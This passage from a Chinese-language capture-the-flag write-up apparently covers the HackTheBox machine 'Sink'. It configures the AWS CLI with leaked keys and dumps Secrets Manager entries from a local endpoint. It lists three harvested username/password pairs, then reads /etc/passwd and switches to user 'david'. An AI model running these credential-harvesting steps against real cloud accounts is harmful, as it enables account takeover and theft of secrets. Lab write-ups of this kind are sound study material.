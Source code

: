 ### <a class="reference-link" name="AWS%20CLI%20Configure"></a>AWS CLI Configure

`Google`了一下`AWS、key、secret`，发现在官方指导手册中有相关介绍，可以通过`AWS`配置`key`和`secret`，从而访问关键隐私信息。官方指导手册如下：

> [https://docs.aws.amazon.com/cli/latest/index.html](https://docs.aws.amazon.com/cli/latest/index.html)
[https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html)

[![](https://p4.ssl.qhimg.com/t0140c0257d5b1051f2.png)](https://p4.ssl.qhimg.com/t0140c0257d5b1051f2.png)

我们也尝试按照官方说明配置下，只需要修改`key`和`secret`即可，`region`代表所在区域，直接按照官方默认来设置：

```
marcus@sink:~$ aws configure
AWS Access Key ID [None]: AKIAIUEN3QWCPSTEITJQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
Default output format [None]: json
```

### <a class="reference-link" name="AWS%20Secretsmanager"></a>AWS Secretsmanager

配置完成之后可以通过`secretsmanager`列举保存的`secrets`

```
aws --endpoint-url="http://127.0.0.1:4566/" secretsmanager list-secrets
```

[![](https://p3.ssl.qhimg.com/t0126c5338c1313af01.png)](https://p3.ssl.qhimg.com/t0126c5338c1313af01.png)

然后根据列举出的`secrets`逐个查询

```
aws --endpoint-url="http://127.0.0.1:4566/" secretsmanager get-secret-value --secret-id "arn:aws:secretsmanager:us-east-1:1234567890:secret:xxxxxxx&lt;name&gt;"
```

获得了以下内容

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0176161bf4ac3ab253.png)

```
username:david@sink.htb   password:EALB=bcC=`a7f2#k
username:albert@sink.htb  password:Welcome123!
username:john@sink.htb    password:R);\\)ShS99mZ~8j
```

### <a class="reference-link" name="User-david"></a>User-david

查看`/etc/passwd`和`/home`路径，发现是存在`david`用户的，尝试了下可以成功用密码切换到`david`用户
